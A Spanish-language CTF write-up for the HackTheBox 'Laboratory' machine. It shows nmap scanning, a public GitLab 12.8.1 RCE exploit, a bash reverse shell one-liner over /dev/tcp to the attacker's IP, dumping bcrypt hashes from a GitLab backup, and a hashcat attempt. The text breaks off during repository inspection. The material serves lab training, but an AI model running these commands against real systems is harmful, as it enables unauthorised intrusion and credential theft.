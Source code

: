```yaml
---
layout      : post
title       : "HackTheBox - Laboratory"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298banner.png
category    : [ htb ]
tags        : [ gitlab, RCE, backup, git, SUID, path-hijacking ]
---
```

Máquina Linux nivel fácil. Tendremos al lobo naranja (GitLab) :P como punto de entrada, jugaremos con Backups y archivos **.bundle**, obtendremos las llaves de la casa y nos haremos dueños de la r(oo)ta mediante un PATH Hijacking.

![298laboratoryHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298laboratoryHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [0xc45](https://www.hackthebox.eu/profile/73268).

Wenas :3 Nos enfrentaremos al gestor de versiones `GitLab`, usaremos ayuda :O (`/help`) para centrar la búsqueda en la versión del software (**Gitlab 12.8.1**). Jugaremos con un exploit que nos permite ver archivos del sistema pero también obtener una Shell (feita) como el usuario **git** en el hostname `git.laboratory.htb`.

Enumerando y buscando auxilio, usaremos `gitlab-backup` para obtener un `backup` de dos repositorios. Usaremos archivos `.bundle` para generar un `clone` de cada repo. En uno nos encontraremos cosas personales :O, usaremos la llave privada **id_rsa** para migrar al usuario **dexter**.

Buscando archivos relacionados con **dexter** encontramos un `SUID` llamativo, jugando con `cat` y `ltrace` vemos que está llamando al binario `chmod` sin ruta absoluta. Aprovecharemos esto para generar un `PATH Hijacking` donde al ejecutar el archivo interesante, obtengamos una Shell como el usuario **root**.

#### Clasificación de la máquina.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

Bastante RealG4Life. A darleeeeeeeeee.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto).

...

Tendremos como siempre 3 fases:

1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalada de privilegios](#escalada-de-privilegios)

...

## Enumeración [#](#enumeracion) {#enumeracion}

Como siempre empezamos realizando un escaneo de puertos sobre la maquina para saber que servicios esta corriendo.

```bash
–» nmap -p- --open -v 10.10.10.216 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535                                                                                  |
| --open     | Solo los puertos que están abiertos                                                                      |
| -v         | Permite ver en consola lo que va encontrando                                                             |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/Writeups/master/HTB/Magic/images/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard      |

```bash
–» cat initScan 
# Nmap 7.80 scan initiated Thu Jan 28 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.216
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.216 ()   Status: Up
Host: 10.10.10.216 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 443/open/tcp//https///        Ignored State: filtered (65532)
# Nmap done at Thu Jan 28 25:25:25 2021 -- 1 IP address (1 host up) scanned in 396.96 seconds
```

Muy bien, tenemos los siguientes servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | [SSH](https://es.wikipedia.org/wiki/Secure_Shell) |
| 80     | [HTTP](https://es.wikipedia.org/wiki/Protocolo_de_transferencia_de_hipertexto) |
| 443    | [HTTPS (TLS)](https://sectigostore.com/blog/port-443-everything-you-need-to-know-about-https-443/) |

Hagamos nuestro escaneo de versiones y scripts con base en cada puerto, con ello obtenemos información más detallada de cada servicio:

```bash
–» nmap -p 22,80,443 -sC -sV 10.10.10.216 -oN portScan
```

| Parámetro | Descripción   |
| ----------|:------------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
–» cat portScan 
# Nmap 7.80 scan initiated Thu Jan 28 25:25:25 2021 as: nmap -p 22,80,443 -sC -sV -oN portScan 10.10.10.216
Nmap scan report for 10.10.10.216
Host is up (0.19s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn: 
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 28 25:25:25 2021 -- 1 IP address (1 host up) scanned in 32.26 seconds
```

Tenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :-------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu |
| 80     | HTTP     | Apache httpd 2.4.41  |
| 443    | HTTPS    | Apache httpd 2.4.41  |

Vemos cositas:

* Hace una redirección al dominio `laboratory.htb` pero al del puerto `443`.
* También al parecer tenemos otro dominio: `git.laboratory.htb`.

Empecemos a enumerar cada servicio :)

...

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

Efectivamente nos redirecciona al dominio `laboratory.htb`, lo agregamos al archivo `/etc/hosts` para corregir la resolución:

* Info sobre el archivo `/etc/hosts`. - [e-logicasoftware.com](http://e-logicasoftware.com/tutoriales/tutoriales/linuxcurso/base/linux065.html)

```bash
–» cat /etc/hosts
...
10.10.10.216  laboratory.htb git.laboratory.htb
...
```

Y ahora volvemos a probar:

![298page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80.png)

Perfecto, veamos que podemos obtener de ahí...

Me pareció interesante y algo críptico este apartado, así que mejor guardarlo:

![298page80_ourCustomers](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_ourCustomers.png)

Pero de resto no tenemos algo interesante... Recordemos el otro dominio que vimos en el escaneo (`git.laboratory.htb`), vamos allí a ver sí si funciona:

![298page80_git_domain](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_domain.png)

Nice, tenemos `GitLab` activo, con la posibilidad de crearnos una cuenta e ingresar, hagámoslo y veamos que hay dentro...

Pero al momento de intentar registrarnos con el correo `lanz@lanz.com` (y otros diferentes) obtenemos este error:

```html
1 error prohibited this user from being saved:

    Email domain is not authorized for sign-up
```

Acá ya me iba a empezar a complicar, pero recordé... y si probamos con el dominio `laboratory.htb`? Osea `lanz@laboratory.htb`:

![298page80_git_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_dashboard.png)

Pos sí, logramos entrar, démosle una vuelta a la página...

En `/help` vemos la versión:

![298page80_git_version](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_version.png)

**Acá tuve algo de suerte**, hace poco había estado jugando con el exploit que vamos a usar:

Buscando en la web sobre esa versión y sus posibles exploits, nos encontramos este script que se aprovecha de una vulnerabilidad combinando dos vectores de ataque para ya sea, obtener información de los archivos dentro del sistema ([Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)) o ejecutar comandos en el sistema (RCE).

Todo el proceso se logra gracias al ([Path Traversal]()), ya que extrae la `secret_key_base` usada por `Rails`. Para posteriormente obtener ejecución de comandos explotando una deserialización de una cookie llamada: `experimentation_subject_id`.

* Descripción de la vulnerabilidad. - [rapid7.com/gitlab_file_read_rce](https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/).
* Exploit que usaremos creado por `dotPY-hax`. - [github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)

Si revisamos el código, solo debemos cambiar: el puerto al cual queremos que se genere la reverse Shell y el dominio con el que creara la cuenta:

![298bash_exploit_reviewcode](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_reviewcode.png)

Ejecutemos:

```bash
–» python3 gitlab_rce.py
usage: gitlab_rce.py <http://gitlab:port> <local-ip>

–» python3 gitlab_rce.py https://git.laboratory.htb 10.10.14.159
...
```

![298bash_exploit_running_choose](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_choose.png)

Elejimos la `opcion 2` y nos indica esto:

```bash
Start a listener on port 4433 and hit enter (nc -vlnp 4433)
```

Nos ponemos en escucha:

```bash
–» nc -lvp 4433
```

Y damos `enter`:

![298bash_exploit_running_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_done.png)

Perfecto, tamos dentro de la máquina, ahora a enumerar. Pero primero hagámosle un tratamiento a nuestra Shell para que sea completamente interactiva, ya que si por alguna razón queremos ver los comandos anteriores o hacer `CTRL + C` no podremos:

* S4vitar nos explica lo que debemos hacer para conseguir una [Shell completamente interactiva (tratamiento de la TTY)](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

Pero al intentarlo (o pues a mí me paso) la Shell (de `ruby` como indicaba el exploit: **"!!RUBY REVERSE SHELL IS VERY UNRELIABLE!! WIP"**) queda estática y no hace nada :( Así que probemos a generarnos una nueva pero en este caso ya con `bash`:

Primero nos volvemos a poner en escucha, pero ahora en otro puerto, en mi caso el `4434` y ejecutamos en la Shell de `git`:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.159/4434 0>&1'
```

```bash
–» nc -lvp 4434
listening on [any] 4434 ...
connect to [10.10.14.159] from laboratory.htb [10.10.10.216] 36932
bash: cannot set terminal process group (398): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$
```

Perfecto, ahora si procedemos a hacer el tratamiento de la TTY y a enumerar...

Después de buscar y buscar por todos lados me perdí y no sabía que más hacer, subí `linpeas`, enumere servicios mediante `ps auxwww` y con el archivo `/proc/net/tcp` (que tiene los números de los puertos donde hay algún servicio corriendo). Revise archivos locos por X parte, di vueltas por la mayoría de carpetas y con `grep` no encontraba nada... Así que busque ayuda con el siempre fiable [@TazWake](https://www.hackthebox.eu/profile/49335), usuario de la plataforma, moderador y persona superpresta a ayudar, que con una sola frase: 

> "Have you tried `gitlab-backup`?"

Me soluciono el dilema y además entendí que no, no había intentado esa herramienta :(

Si la usamos en pocos segundos obtenemos un archivo `.tar` con el backup del repositorio, si nos creamos una carpeta en `/dev/shm` (archivos temporales) llamada `test/` donde podamos extraer toda la data sin molestar a nadie, tenemos:

```bash
git@git:/dev/shm/test$ gitlab-backup 
2021-01-29 22:45:49 +0000 -- Dumping database ... 
Dumping PostgreSQL database gitlabhq_production ... [DONE]
2021-01-29 22:45:51 +0000 -- done
2021-01-29 22:45:51 +0000 -- Dumping repositories ...
 * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
[SKIPPED] Wiki
 * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
[SKIPPED] Wiki
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping uploads ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping builds ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping artifacts ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping pages ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping lfs objects ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping container registry images ... 
2021-01-29 22:45:53 +0000 -- [DISABLED]
Creating backup archive: 1612133153_2021_01_29_12.8.1_gitlab_backup.tar ... done
Uploading backup archive to remote storage  ... skipped
Deleting tmp directories ... done
done
done
done
done
done
done
done
Deleting old backups ... skipping
Warning: Your gitlab.rb and gitlab-secrets.json files contain sensitive data 
and are not included in this backup. You will need these files to restore a backup.
Please back them up manually.
Backup task is done.
git@git:/dev/shm/test$
```

Buscamos el archivo para moverlo a nuestra carpeta:

```bash
git@git:/dev/shm/test$ find / -name 1611956382_2021_01_29_12.8.1_gitlab_backup.tar 2>/dev/null
/var/opt/gitlab/backups/1611956382_2021_01_29_12.8.1_gitlab_backup.tar
git@git:/dev/shm/test$ mv /var/opt/gitlab/backups/1611956382_2021_01_29_12.8.1_gitlab_backup.tar .
git@git:/dev/shm/test$ ls
1611956382_2021_01_29_12.8.1_gitlab_backup.tar
git@git:/dev/shm/test$ 
```

Lo descomprimimos:

```bash
git@git:/dev/shm/test$ tar -xvf 1611956382_2021_01_29_12.8.1_gitlab_backup.tar #e(x)traemos y (v)emos por pantalla lo que va pasando con el (f)ile.
repositories/              
repositories/@hashed/
...
...
db/
db/database.sql.gz
uploads.tar.gz
builds.tar.gz
artifacts.tar.gz
pages.tar.gz
lfs.tar.gz
backup_information.yml
git@git:/dev/shm/test$ 
```

Perfecto, nos llama la atención el archivo `database.sql.gz`, procedamos a descomprimirlo también:

#### ▿ Rabbit hole :P

```bash
git@git:/dev/shm/test/db$ ls
database.sql.gz
git@git:/dev/shm/test/db$ gzip -d database.sql.gz 
git@git:/dev/shm/test/db$ ls
database.sql
git@git:/dev/shm/test/db$ 
```

Tiene un montón de información, después de jugar un poco, intente buscar mi usuario creado en `GitLab` al inicio de la máquina:

```bash
git@git:/dev/shm/test/db$ grep -i "lanz" database.sql 
43      lanz    lanz    43      2021-01-29 18:48:12.104345      2021-01-29 18:48:12.104345      \N              \N      f       f       20      t       ready   \N      \N      \N      \N     \N       \N      \N      \N      f       48      1179648 \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      1       \N      \N      \N      \N
101     43      Namespace       lanz    2021-01-29 18:48:12.109994      2021-01-29 18:48:12.109994      lanz
43      lanz@laboratory.htb     $2a$10$d1iFT3BRnuqkzprchrPof.9Mv.DCjqPxziHowFhSfP7bFg6.HzYHu    \N      \N      \N      1       2021-01-29 18:48:12.120568      2021-01-29 18:48:12.120568     172.17.0.1       172.17.0.1      2021-01-29 18:48:12.096365      2021-01-29 18:48:12.858875      lanz    f       10                              \N      0       \N      lanz    t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:48:11.977481      \N      \N      f               \N      lanz@laboratory.htb     f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1jwc9nbz418ndij73kh3hw7u8       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      RJMyoUczVKQogLZxez-G    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
git@git:/dev/shm/test/db$ 
```

Perfecto, vemos el correo y además un `hash`... Pero pues el mío no interesa, veamos si podemos obtener más usuarios apoyándonos de las opciones `-A` (After) y `-B` (Before), para listar lineas antes y después de nuestra búsqueda:

```bash
git@git:/dev/shm/test/db$ grep -i "lanz@" -B 3 -A 3 database.sql 
30      test123@laboratory.htb  $2a$10$i2s70e/JnuB7PZgwsIKXq.adqFoTmlY4fYPyrpn3.fe6J5seXqJYq    \N      \N      \N      1       2021-01-29 14:34:05.460662      2021-01-29 14:34:05.460662     172.17.0.1       172.17.0.1      2021-01-29 14:34:05.445185      2021-01-29 14:34:05.775697      test    f       10                              \N      0       \N      test123 t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 14:34:05.344875      \N      \N      f               \N      test123@laboratory.htb  f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       ak3v7vhrg4ncr5fydb5sidjro       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      qKbE4G2UQ9mCEgaWYM2m    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
1       admin@example.com       $2a$10$.9fAYoRs9/Erjs0FH.OlN.OH.L4cj2at6RfTmIQ3CTEl2D4ylgJ6i    \N      \N      \N      9       2021-01-29 19:26:03.945205      2020-10-20 18:39:24.13278      172.17.0.1       172.17.0.1      2020-07-02 18:02:18.859553      2021-01-29 19:26:03.976187      Dexter McPherson        t       100000                                  0       \N      dexter tf       active  1       \N      \N      \N      avatar.png      6nEdboVbdcGyZmgaJ-ym    2020-07-02 18:02:18.623133      2020-07-02 18:37:11.372854      dexter@laboratory.htb   f              \N       admin@example.com       f       f               \N      \N      \N      f       \N              0       2       \N      0       f       \N      \N      \N      f       bonf6hqghs7dp26rjj6f3w2w4               f       f       48      \N      2021-01-29      f       en      \N      \N      \N      \N      1       \N      RvtN2a2xGmyx2-fFL4T4    f       \N      f       \N     \N       \N      \N      \N      \N      \N      3
42      exp101t@laboratory.htb  $2a$10$ICZBhypCVivQKB0n8YIxNuGr/YYMa4A9zGtOM0seJflZ7jiVCHfKG    \N      \N      \N      1       2021-01-29 18:47:30.823162      2021-01-29 18:47:30.823162     172.17.0.1       172.17.0.1      2021-01-29 18:47:30.785264      2021-01-29 19:15:46.002469      exp101t f       10                              \N      0       \N      exp101t t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:47:30.66866       \N      \N      f               \N      exp101t@laboratory.htb  f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       c30j1n6akc41gq3xnlbh3jxmp       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      5f1AHFrApfeU4CqRs57H    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
43      lanz@laboratory.htb     $2a$10$d1iFT3BRnuqkzprchrPof.9Mv.DCjqPxziHowFhSfP7bFg6.HzYHu    \N      \N      \N      1       2021-01-29 18:48:12.120568      2021-01-29 18:48:12.120568     172.17.0.1       172.17.0.1      2021-01-29 18:48:12.096365      2021-01-29 18:48:12.858875      lanz    f       10                              \N      0       \N      lanz    t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:48:11.977481      \N      \N      f               \N      lanz@laboratory.htb     f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1jwc9nbz418ndij73kh3hw7u8       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      RJMyoUczVKQogLZxez-G    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
4       seven@laboratory.htb    $2a$10$HkBO3A4k6G42X85r0ZIpO.RlSLCg9igEaiiU8r44Ymd7e2nWcjixC    \N      \N      \N      3       2020-09-05 19:01:10.34461       2020-07-17 19:03:51.88634      172.17.0.1       172.17.0.1      2020-07-17 15:57:57.446229      2020-09-05 19:01:10.459181      Seven   f       100000                                  0       \N      seven   t       f      active   1       \N      \N      \N      avatar.png      \N      2020-07-17 15:57:57.260823      \N      \N      f               \N      seven@laboratory.htb    f       f               \N     \N       \N      f       \N              0       2       \N      0       f       \N      \N      \N      f       bvm8qb1ou3vg35u3tchcfzgp1               f       f       48      \N      2020-09-05      f       en      \N      \N      \N      \N      1       \N      2sHXWyKj3rwag36sVeP-    f       \N      f       seven@laboratory.htb    \N      \N      \N      \N      \N      \N     4
3       ghost@example.com               \N      \N      \N      0       \N      \N      \N      \N      2020-07-02 19:52:08.183475      2020-07-02 19:52:08.183475      Ghost User      f      100000                           This is a "Ghost User", created to hold all issues authored by users that have since been deleted. This user cannot be removed. 0       \N      ghost   t      factive  1       \N      \N      \N      \N      tzyprXQ5VMAHsEjuex6L    \N      2020-07-02 19:52:08.184131      \N      f               \N      \N      f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1xvejv7i8oe8wluh6jtgeimge       \N      f       f       48      t       \N      f      en       \N      \N      \N      \N      1       \N      \N      f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
5       u@laboratory.htb        $2a$10$sXPLtsEKOUD.xg5WOj3B6.zuWNhVj/rYt4B2z0yAxYDkgswbJHJIW    \N      \N      \N      1       2021-01-29 07:09:51.640403      2021-01-29 07:09:51.640403     172.17.0.1       172.17.0.1      2021-01-29 07:09:51.603953      2021-01-29 07:09:52.168008      normann f       10                              \N      0       \N      normann t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 07:09:51.42427       \N      \N      f               \N      u@laboratory.htb        f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       5oi076s0mnm5bhutjonx9tyqv       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      Zsn5bxeDhqK47W89HrB7    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
git@git:/dev/shm/test/db$ 
```

Es mucho texto y puede verse confuso, lo sé, pero podemos destacar la fecha de creación de los usuarios, si nos guiamos por eso, tenemos 3 interesantes:

```html
| username@correo      | Nombre           | Hash                                                         | Fecha creación |
| -------------------- | :--------------- |:------------------------------------------------------------ | :------------- |
| admin@example.com    | Dexter McPherson | $2a$10$.9fAYoRs9/Erjs0FH.OlN.OH.L4cj2at6RfTmIQ3CTEl2D4ylgJ6i | 2020-07-02     |
| seven@laboratory.htb | Seven            | $2a$10$HkBO3A4k6G42X85r0ZIpO.RlSLCg9igEaiiU8r44Ymd7e2nWcjixC | 2020-07-17     |
| ghost@example.com    | ghost            | -                                                            | 2020-07-02     | 
```

Perfeeecto, pues enfoquemosnos en esos hashes y veamos si los podemos crackear...

Apoyado de [todos los ejemplos de hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) que tiene [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) en su wiki, encontramos que son tipo `bcrypt $2*$, Blowfish (Unix)`:

![298page_example_hashcat_bcrypt](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page_example_hashcat_bcrypt.png)

Guardamos los hashes en un archivo y procedemos, usare `hashcat`:

```bash
–» hashcat -m 3200 -a 0 hashes_t /usr/share/wordlists/rockyou.txt -o cracked_bro
```

* `-m`: Tipo de hash.
* `-a`: Le indicamos que haga un ataque en modo diccionario.
* `hashes_t`: Archivo con los hash.
* `./rockyou.txt`: Diccionario que usaremos.
* `-o`: La salida la guarda en el archivo **cracked_bro**.

Pero nada, no lo logramos... Así que de nuevo, estaba full estancado y pedí ayuda: La ayuda me indico que fuera cauteloso con los archivos del `.tar` y que además me fijara en el output del proceso... (Que lo puse arriba y ni me había fijado):

```bash
...
 * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
[SKIPPED] Wiki
 * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
[SKIPPED] Wiki
...
```

Donde tenemos dos proyectos:

* `securewebsite`.
* `securedocker`.

Y tenemos una ruta para cada uno, inspeccionemos su contenido:

```bash
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ ls -la
total 0
drwxr-xr-x 2 git git 40 Jan 31 22:45 .
drwxr-xr-x 3 git git 80 Jan 31 22:45 ..
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ cd ..
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 2 git git      40 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
git@git:/dev/shm/test/repositories/@hashed/2c/62$
```

No tiene ningún contenido la carpeta, pero una atrás contiene un archivo `.bundle`... Después de otra vez estar perdido, buscando por internet nos damos cuenta de una genialidad con los archivos `.bundle`:

> .. you want a single file that has your whole project and all the commits you’ve made. You can use `git bundle` for this! [blog.tplus1/git-bundle](https://blog.tplus1.com/blog/2018/12/11/git-bundle-converts-your-whole-repository-into-a-single-file-kind-of-like-webpack/).

Esto está muy loco porque significa que todo nuestro repositorio, commits, logs, etc. Lo podemos guardar en un único archivo, que en el caso ya de querer volver a ver los archivos, logs, commits del repositorio, lo único que debemos hacer es un `git clone` al `.bundle`:

> ```sh
> $ git clone -b master /tmp/myproject.bundle myproject2
> $ cd myproject2
> ```
>> [blog.tplus1/git-bundle](https://blog.tplus1.com/blog/2018/12/11/git-bundle-converts-your-whole-repository-into-a-single-file-kind-of-like-webpack/).

Pues apoyados en esto, probemos a generar los dos repositorios y ver que podemos encontrar útil:

#### ¬ securewebsite

```
* dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
```

```bash
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 2 git git      40 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
git@git:/dev/shm/test/repositories/@hashed/2c/62$ git clone 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle 
Cloning into '2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3'...
Receiving objects: 100% (66/66), 7.21 MiB | 78.58 MiB/s, done.
Resolving deltas: 100% (5/5), done.
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 5 git git     140 Jan 31 23:10 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle

git@git:/dev/shm/test/repositories/@hashed/2c/62$ cd 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ ls -la
total 12
drwxr-xr-x 5 git git  140 Jan 31 23:10 .
drwxr-xr-x 3 git git   80 Jan 31 22:45 ..
drwxr-xr-x 7 git git  240 Jan 31 23:10 .git
-rw-r--r-- 1 git git  430 Jan 31 23:10 CREDITS.txt
drwxr-xr-x 6 git git  120 Jan 31 23:10 assets
drwxr-xr-x 2 git git  180 Jan 31 23:10 images
-rw-r--r-- 1 git git 7045 Jan 31 23:10 index.html
```

```git
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ git log
